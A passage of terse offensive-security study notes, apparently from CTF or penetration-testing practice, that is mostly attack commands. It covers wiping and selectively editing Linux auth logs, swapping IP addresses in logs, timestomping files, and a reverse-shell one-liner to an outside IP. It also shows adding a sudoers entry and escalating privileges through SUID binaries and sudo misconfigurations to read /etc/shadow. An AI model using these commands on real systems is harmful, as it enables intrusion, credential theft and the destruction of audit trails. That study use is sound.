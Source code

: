   - Affect on the inode of using `mv` vs `cp` vs `cat`
##### Get rid of it
* `rm -rf /var/log/...`
##### Clear it
* `cat /dev/null > /var/log/...`
* `echo > /var/log/...`
#### Cleaning The Logs (Precise)
##### GREP (Remove)
* `egrep -v '10:49*| 15:15:15' auth.log > auth.log2; cat auth.log2 > auth.log; rm auth.log2`
##### SED (Replace)
* `cat auth.log > auth.log2; sed -i 's/10.16.10.93/136.132.1.1/g' auth.log2; cat auth.log2 > auth.log`
##### Timestomp
* `touch -c -t 201603051015 1.txt    # Explicit`
* `touch -r 3.txt 1.txt    # Reference`/ takes a timestamp from another file 
#### Rsyslog
* Newer Rsyslog references `/etc/rsyslog.d/*` for settings/rules
* Older versions only uses `/etc/ryslog.conf`
* Find out with `grep "IncludeConfig /etc/rsyslog.conf` DONT USE 
```
kern.*                                                # All kernel messages, all severities
mail.crit
cron.!info,!debug
*.*  @192.168.10.254:514                                                    # Old format
*.* action(type="omfwd" target="192.168.10.254" port="514" protocol="udp")   # New format
#mail.*
```
# CTF
```
watch -n1 'ls -l'
/bin/bash -i >& /dev/tcp/192.168.28.135/33403 0>&1
/var/tmp/testbed/unknown /etc/sudoers 'comrade  ALL=(ALL:ALL) ALL'
```
sudo cat /etc/sudoers
find / -type f -perm /4000 -ls 2>/dev/null
  cross reference with gtfo bins that can give you a shel, if root owns it you are root

## in action demo 1
sudo -l  
    cross reference the binary with gtfobins

sudo apt-get changelog apt 
!/bin/sh will allow a shell on the device and now we are root 

## demo 2 
sudo -l 
as root with NO PASSWD you can run /var/log/syslog* 
ls -l /var/log/syslog* shows all the log rotations (.gz logs) 
    star means anything 
so because star is there, it means any character o we can do: cat /var/log/syslog /etc/shadow (or any file)
